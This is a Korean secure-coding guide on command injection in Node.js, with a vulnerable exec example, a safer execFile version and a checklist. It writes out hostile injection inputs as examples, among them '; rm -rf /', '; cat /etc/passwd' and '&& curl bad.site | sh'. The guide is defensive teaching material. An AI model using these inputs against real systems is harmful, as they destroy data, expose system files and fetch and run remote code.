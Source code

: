 # 🛡️ Secure Coding - 명령어 삽입 (Command Injection)

**명령어 삽입(Command Injection)** 은 애플리케이션이 사용자 입력을 통해 **OS 명령어를 실행**할 때,  
입력값이 적절히 검증되지 않아 공격자가 임의의 시스템 명령어를 삽입하고 실행하는 보안 취약점입니다.

---

## 1️⃣ 명령어 삽입의 위험성

| 항목              | 설명 |
|-------------------|------|
| 시스템 명령 실행   | `rm -rf`, `cat /etc/passwd` 등 직접적인 시스템 조작 가능 |
| 권한 상승          | 관리자 권한으로 명령어가 실행되면 전체 시스템 탈취 가능 |
| 데이터 유출/파괴   | 내부 정보 출력, 파일 삭제, 백도어 삽입 등 |
| 악성코드 실행      | 외부에서 다운받은 스크립트 실행 등 |

---

## 2️⃣ 공격 예시

### 입력값: `; rm -rf /`

```js
const userInput = req.query.filename;
const exec = require('child_process').exec;
exec(`cat ${userInput}`, (err, stdout) => {
  res.send(stdout);
});
```

> 사용자가 `filename=abc.txt; rm -rf /` 입력 → 시스템 전체 삭제 가능

---

## 3️⃣ 안전한 구현 원칙

| 방법 | 설명 |
|------|------|
| OS 명령어 직접 실행 지양 | 가능하면 명령어 자체를 쓰지 않도록 설계 |
| 사용자 입력 검증         | 입력값에 허용된 값만 통과 (화이트리스트 방식) |
| 쉘 호출 대신 API 사용    | Node.js, Python 등에서 OS 명령어 대신 내장 API 활용 |
| 명령어 조합 금지         | 문자열로 명령어를 구성하지 말 것 |
| `exec` 대신 `spawn`, `execFile` 사용 | 파라미터를 분리해 전달하는 방식이 더 안전 |

---

## 4️⃣ 안전한 코드 예시

#### ❌ 취약한 방식 (Node.js)

```js
const userInput = req.query.file;
exec(`cat ${userInput}`, (err, out) => res.send(out));
```

#### ✅ 안전한 방식 (`execFile` 사용)

```js
const { execFile } = require('child_process');
const file = req.query.file;

// 화이트리스트 검증 예시
if (!/^[\w\-\.]+$/.test(file)) {
  return res.status(400).send('Invalid file name');
}

execFile('cat', [file], (err, stdout) => {
  if (err) return res.status(500).send('Error');
  res.send(stdout);
});
```

---

## 5️⃣ 체크리스트

- [ ] 사용자 입력값을 명령어에 직접 연결하고 있지 않은가?
- [ ] OS 명령어 대신 언어나 라이브러리 제공 API를 사용하고 있는가?
- [ ] 필요한 경우 명령어는 `exec`이 아닌 `spawn`, `execFile` 등으로 실행하고 있는가?
- [ ] 입력값에 허용된 형식(화이트리스트)을 적용하고 있는가?
- [ ] 명령 실행 후 에러/로그 처리는 안전하게 하고 있는가?

---

## 6️⃣ 테스트 시 참고

| 입력값 예시 | 기대 결과 | 실제 위험 |
|-------------|------------|-----------|
| `log.txt`   | 정상 출력 | - |
| `log.txt; cat /etc/passwd` | 차단되어야 함 | 시스템 파일 유출 가능 |
| `&& curl bad.site \| sh` | 차단되어야 함 | 외부 명령 실행 가능 |

---

## 🎯 정리

✔ Command Injection은 **입력값이 시스템 명령어에 삽입되어 실행되는 심각한 보안 취약점**  
✔ 가능하면 **OS 명령어 실행을 피하고**, 꼭 필요하면 **API 또는 `execFile`, `spawn` 등 안전한 방식** 사용  
✔ **입력값은 반드시 검증**, 문자열 명령어 조합 절대 금지  
✔ 작은 실수 하나가 시스템 전체를 날릴 수 있다 😱
